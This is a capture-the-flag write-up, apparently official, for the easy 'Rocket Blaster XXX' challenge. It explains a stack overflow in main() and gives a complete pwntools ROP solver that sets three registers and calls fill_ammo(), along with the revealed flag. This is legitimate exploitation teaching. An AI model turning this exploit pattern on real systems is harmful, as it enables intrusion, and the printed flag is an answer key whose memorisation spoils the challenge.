

    	<font size="10">Rocket Blaster XXX</font>

​		25<sup>th</sup> January 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 


# Synopsis

Rocket Blaster XXX is an Easy difficulty challenge that features `ret2win` exploitation technique with 3 arguments.

# Description

Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!

## Skills Required

- Buffer Overflow

## Skills Learned

- `ret2win` with 3 arguments.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Having `canary` and `PIE` disabled, means that we might have a possible `buffer overflow`.

The program's interface 



As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly

Starting with `main()`:

```c
undefined8 main(void)

{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  banner();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fflush(stdout);
  printf(
        "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the right place to load the Rocket Blaster XXX!\n\n>> "
        );
  fflush(stdout);
  read(0,&local_28,0x66);
  puts("\nPreparing beta testing..");
  return 0;
}
```

As we can see, there is a `0x20` bytes long buffer (`local_28`), that is filled with zeros. Then, the program calls `read(0, &local_28, 0x66)`. The bug is obvious here: The buffer is `0x20` bytes long and we can store up to `0x66` bytes to it. But, what can we do after we overflow the buffer? We need to overwrite `return address` with something useful.

### fill_ammo 🔫

Taking a look around, we can see this function:

```c
void fill_ammo(long param_1,long param_2,long param_3)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 0xdeadbeef) {
    printf("%s[x] [-] [-]\n\n%sPlacement 1: %sInvalid!\n\nAborting..\n",&DAT_00402010,&DAT_00402008,
           &DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_2 != 0xdeadbabe) {
    printf(&DAT_004020c0,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  if (param_3 != 0xdead1337) {
    printf(&DAT_00402100,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(3);
  }
  printf(&DAT_00402140,&DAT_004020b6);
  fflush(stdin);
  fflush(stdout);
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
}
```

There are 3 key points here:

* The function opens `flag.txt` -> `local_c = open("./flag.txt",0);`
* It takes `3` arguments -> `param1`, `param2`, `param3` and compares them with `0xdeadbeef`, `0xdeadbabe` and `0xdead1337` accordingly.
* If the comparison is met, it prints the flag.

Our goal is to reach this function, which is never called. What we are going to do is:

* Fill the `local_28[32]` buffer with 32 bytes of junk.
* Overwrite the `stack frame pointer` with 8 bytes of junk.
* Overwrite the `return address` with the address of `fill_ammo()`, 8 bytes aligned and correct `endianness`.

But, before we call the function, we need to pass it 3 parameters first, otherwise it will print the error message and exit.

It is known that in a function, let's say `foo(arg1, arg2, arg3)`, the first argument is stored in `$rdi`, the second in `$rsi` and the third in `$rdx` register. Luckily for us, all gadgets are present in the binary and can be used.

```gdb
pwndbg> rop --grep 'pop rdi'
0x000000000040159f : pop rdi ; ret
pwndbg> rop --grep 'pop rsi'
0x00000000004013ae : pop rsi ; or al, 0 ; add byte ptr [rax - 0x77], cl ; ret 0x8d48
0x000000000040159d : pop rsi ; ret
pwndbg> rop --grep 'pop rdx'
0x000000000040159b : pop rdx ; ret
```

The final payload should look like this:

```python
payload = b'A'*40 + p64(pop_rdi) + p64(0xdeadbeef) + p64(pop_rsi) + p64(0xdeadbabe) + p64(pop_rdx) +  p64(0xdead1337) + p64(ret) + p64(fill_ammo)
```

The `ret` gadget is used for `stack alignment`. The rest are self explanatory, each register is popped and filled with the corresponding value to set the parameters of `fill_ammo` that is called in the end.p64(0xdead1337)

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './rocket_blaster_xxx' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

r.timeout = 0.1

e   = ELF(fname)
rop = ROP(e)

payload = flat({
  0x28: p64(rop.find_gadget(['pop rdi'])[0]) + p64(0xdeadbeef) + 
        p64(rop.find_gadget(['pop rsi'])[0]) + p64(0xdeadbabe) +
        p64(rop.find_gadget(['pop rdx'])[0]) + p64(0xdead1337) +
        p64(rop.find_gadget(['ret'])[0])     + p64(e.sym.fill_ammo)
})

r.sendline(payload)

r.recvuntil('at: ')
print(f'Flag --> {r.recvline().strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{b00m_b00m_r0ck3t_2_th3_m00n}
```

